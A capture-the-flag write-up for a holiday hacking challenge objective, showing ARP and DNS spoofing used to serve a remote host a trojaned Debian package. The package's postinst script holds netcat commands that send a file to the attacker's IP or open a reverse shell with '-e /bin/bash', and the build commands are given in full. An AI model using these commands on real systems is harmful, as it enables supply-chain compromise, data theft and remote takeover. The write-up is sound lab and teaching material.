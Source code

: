 # Objective 9: ARP Shenanigans
Location: NetWars

The objective is to get hold of the file `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` on a remote host using ARP  and DNS spoofing. This document holds the information who recused herself from a vote.

Exercise setup:
||Local Host|Remote Host  |Spoofed Host|
|--|--|--|--|
|MAC|02:42:0a:06:00:02  | 4c:24:57ab:ed:84 ||
|IP| 10.6.0.2 | 10.6.6.35 |10.6.6.53|

A [Python Scapy script](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/spoof.py) was prepared to spoof ARP replies for the spoofed host redirecting the traffic to the local host.
Furthermore this script spoofs DNS replies for queries sent to the spoofed host and does always return A records pointing to it's own local IP address.
The script takes the IP address of the spoofed host as argument, so here is has to be called with `./spoof.py 10.6.6.53`.

Capture of ARP and DNS spoofing with following HTTP request:
```
17:27:16.968588 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
17:27:16.992764 ARP, Reply 10.6.6.53 is-at 02:42:0a:06:00:02, length 28
17:27:17.009009 IP 10.6.6.35.16498 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
17:27:17.029673 IP 10.6.6.53.53 > 10.6.6.35.16498: 0*- 1/0/0 A 10.6.0.2 (62)
17:27:18.098422 IP 10.6.6.35.50340 > 10.6.0.2.80: Flags [S], seq 2451495177, win 64240, options [mss 1460,sackOK,TS val 2516141758 ecr 0,nop,wscale 7], length 0
17:27:18.098452 IP 10.6.0.2.80 > 10.6.6.35.50340: Flags [R.], seq 0, ack 2451495178, win 0, length 0
```

A Node.js HTTP server was started from the home directory using  `python3 -m http.server 80` and it logged the request:

    10.6.6.35 - - [12/Dec/2020 17:37:02] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -

On the local host the Debian package `netcat-traditional_1.10-41.1ubuntu1_amd64.deb` was found.
This package was modified to include a netcat command in the postinst script to send the text file to our local host. By using the `netcat` package we can ensure that the `netcat` command is available on the device.

`/bin/nc 10.6.0.2 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`

By opting for 
`/bin/nc 10.6.0.2 4444 -e /bin/bash`
an interactive reverse shell can be acquired.

The snippet below automatically inserts the correct IP address of the local host and places the package in the right location of the web tree.

**Obtaining just the file**
```
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb
```
That way the remote device would download this package and install it. In course of the installation, the file in scope would be sent to port 4444 of the local host, which has to run the command

    nc -lvp 4444 > text
to receive the [text](https://github.com/joergschwarzwaelder/hhc2020/blob/master/Objective-9/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt) 

In this file it can be found that **Tanta Kringle** recused herself from the vote.

**Obtaining shell access**
```
cd ~/debs
mkdir tmp
dpkg-deb -R netcat-traditional_1.10-41.1ubuntu1_amd64.deb tmp
echo /bin/nc `ifconfig eth0 | grep 'inet ' | awk '{print $2}'`' 4444 -e /bin/bash' >> tmp/DEBIAN/postinst
mkdir -p ../pub/jfrost/backdoor
dpkg-deb -b tmp ../pub/jfrost/backdoor/suriv_amd64.deb
```
That way the remote device would download this package and install it. In course of the installation, a reverse shell connection is established to the local host, which has to run the command

    nc -lvp 4444
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTIwMDM4MDMyLC0yODE4OTkyNzYsMTE5NT
Q4OTUxMSw3OTczNDE5MjIsMjY4NjUzNDg0LDEyNzI2NTY0MTks
ODU4MTg4OTI5LDEwOTI3ODUzMjEsLTIwNjI2NzUyOTcsLTYxMj
g5Nzc5OSwtODUyNzIyNzAzLDE3NTgyNDM2NzcsMTYzNDM5NDk0
MSwxMjA0NDI2NTM5LC0xNzk4NDE1ODk2LC04NzgzOTIyMTYsNT
E0MjA5MTU5XX0=
-->